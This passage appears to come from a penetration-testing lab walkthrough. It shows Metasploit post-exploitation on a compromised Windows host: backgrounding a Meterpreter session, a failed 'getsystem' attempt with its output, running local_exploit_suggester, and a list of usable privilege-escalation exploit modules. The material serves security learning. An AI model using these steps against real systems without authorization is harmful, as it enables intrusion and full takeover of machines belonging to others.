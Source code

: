 ![Meterpreter Success](.gitbook/assets/image-20230315163132938.png)

- Background the session

```bash
background
sessions
```

![](.gitbook/assets/image-20230315163153834.png)

### Local Privilege Escalation

```bash
# From the meterpreter session
sessions 7
getprivs

    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege

getsystem
    [-] priv_elevate_getsystem: Operation failed: 691 The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    [-] Named Pipe Impersonation (RPCSS variant)
    [-] Named Pipe Impersonation (PrintSpooler variant)
    [-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
# failed
```

- Enumerate Windows Kernel vulnerabilities with Metasploit

```bash
background
search suggester
use post/multi/recon/local_exploit_suggester
sessions
set SESSION 7
run
```

![Metasploit local_exploit_suggester](.gitbook/assets/image-20230315163350829.png)

```bash
# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```
